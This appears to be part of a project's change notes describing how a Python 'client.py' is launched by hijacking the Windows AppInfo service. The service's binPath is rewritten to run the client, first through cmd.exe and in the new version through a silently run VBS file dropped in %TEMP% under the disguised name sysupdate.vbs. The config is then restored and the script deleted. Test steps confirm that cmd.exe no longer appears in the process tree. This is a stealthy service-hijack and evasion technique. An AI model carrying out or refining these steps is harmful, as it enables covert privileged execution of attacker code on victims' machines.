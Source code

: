 
## 📋 Execution Flow

### Old Flow (CMD)
```
1. Stop AppInfo service
2. Configure: binPath = "cmd.exe /c python.exe client.py && svchost.exe"
3. Start AppInfo service
4. CMD.EXE spawns → Python process
5. Restore service config
```

### New Flow (VBS)
```
1. Create sysupdate.vbs in %TEMP%
2. Stop AppInfo service
3. Configure: binPath = "wscript.exe //B //Nologo C:\Users\...\Temp\sysupdate.vbs && svchost.exe"
4. Start AppInfo service
5. WSCRIPT.EXE silently spawns → Python process
6. Restore service config
7. Delete sysupdate.vbs (cleanup)
```

---

## ✅ Testing

### Verify the change works:

1. **Check VBS Creation**:
   ```python
   # VBS file should be created in temp directory
   # C:\Users\<user>\AppData\Local\Temp\sysupdate.vbs
   ```

2. **Check Service Config**:
   ```cmd
   sc qc Appinfo
   # Should show wscript.exe in binPath (during execution)
   ```

3. **Check Process Tree**:
   ```
   Expected: wscript.exe → python.exe
   (NOT: cmd.exe → python.exe)
   ```

4. **Check Cleanup**:
   ```python
   # After execution, sysupdate.vbs should be deleted
   # Verify temp directory is clean
   ```

---
